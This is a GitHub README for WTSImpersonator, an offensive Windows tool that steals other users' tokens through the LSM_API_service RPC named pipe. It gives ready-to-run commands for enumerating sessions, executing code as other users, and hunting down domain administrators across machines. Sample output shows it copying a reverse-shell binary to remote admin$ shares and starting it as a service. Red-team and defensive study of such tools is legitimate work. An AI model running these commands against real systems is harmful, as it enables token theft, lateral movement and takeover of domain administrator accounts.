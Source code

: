 # WTSImpersonator
WTSImpersonator utilizes WTSQueryUserToken to steal other users tokens \(Local/Remote\) without using NtOpenProcess or touching Lsass.exe by abusing RPC Named Pipe "\\pipe\LSM_API_service" \(Admin Privileges Required\)   
  
![wtsLOGOwhite](https://github.com/OmriBaso/WTSImpersonator/assets/50461376/89391383-769e-4460-9adb-a146e290721a)

### Usage: 
 
##### `enum` Module  
  
Enumerate Local Users on the machine the tool is running from  
```powershell
.\WTSImpersonator.exe -m enum
```
Enumerate a machine remotely given an IP or an Hostname.
```powershell  
.\WTSImpersonator.exe -m enum -s 192.168.40.131  
```
##### `exec` / `exec-remote` Module  
Both "exec" and "exec-remote" requires being in a **"Service"** context.  
The local "exec" module does not need anything buy the WTSImpersonator.exe and the binary you want to execute \(-c flag\), this could be  
a normal "C:\Windows\System32\cmd.exe" and you will open a CMD as the user you desire, an example would be  
```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe  
```
you could use PsExec64.exe in order to obtain a service context  
```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```powershell
For `exec-remote` things are a bit different, I created a service that can be installed remotely just like `PsExec.exe`  
the service will receive a `SessionId` and a `binary to run` as an argument and it will be installed and executed remotely given the right permissions  
an example run would look as follows:
  
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m enum -s 192.168.40.129

 __          _________ _____ _____                                                 _
 \ \        / /__   __/ ____|_   _|                                               | |
  \ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
   \ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
    \  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
     \/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
                                            | |
                                            |_|
         By: Omri Baso
WTSEnumerateSessions count: 1
[2] SessionId: 2 State: WTSDisconnected (4) WinstationName: ''
        WTSUserName:  Administrator
        WTSDomainName: LABS
        WTSConnectState: 4 (WTSDisconnected)
```  
as can be seen above the `Sessionid` of the Administrator account is `2` so we use it next in the `id` variable when executing code remotely
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```  
##### `user-hunter` Module  

The user hunter module will give you the ability to enumerate multiple machines and if a given user is found, it will execute code on this user behalf.  
this is useful when hunting for "Domain Admins" while having local administrator rights on a few machines.  
```powershell
PS C:\Users\Jon\Desktop> .\WTSImpersonator.exe -m user-hunter -uh LABS/Administrator -ipl .\test.txt -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe

 __          _________ _____ _____                                                 _
 \ \        / /__   __/ ____|_   _|                                               | |
  \ \  /\  / /   | | | (___   | |  _ __ ___  _ __   ___ _ __ ___  ___  _ __   __ _| |_ ___  _ __
   \ \/  \/ /    | |  \___ \  | | | '_ ` _ \| '_ \ / _ \ '__/ __|/ _ \| '_ \ / _` | __/ _ \| '__|
    \  /\  /     | |  ____) |_| |_| | | | | | |_) |  __/ |  \__ \ (_) | | | | (_| | || (_) | |
     \/  \/      |_| |_____/|_____|_| |_| |_| .__/ \___|_|  |___/\___/|_| |_|\__,_|\__\___/|_|
                                            | |
                                            |_|
         By: Omri Baso

[+] Hunting for: LABS/Administrator On list: .\test.txt
[-] Trying: 192.168.40.131
[+] Opned WTS Handle: 192.168.40.131
[-] Trying: 192.168.40.129
[+] Opned WTS Handle: 192.168.40.129

----------------------------------------
[+] Found User: LABS/Administrator On Server: 192.168.40.129
[+] Getting Code Execution as: LABS/Administrator
[+] Trying to execute remotly
[+] Transfering file remotely from: .\WTSService.exe To: \\192.168.40.129\admin$\voli.exe
[+] Transfering file remotely from: .\SimpleReverseShellExample.exe To: \\192.168.40.129\admin$\DrkSIM.exe
[+] Successfully transfered file!
[+] Successfully transfered file!
[+] Sucessfully Transferred Both Files
[+] Will Create Service voli
[+] Create Service Success : "C:\Windows\voli.exe" 2 C:\Windows\DrkSIM.exe
[+] OpenService Success!
[+] Started Sevice Sucessfully!

[+] Deleted Service
```
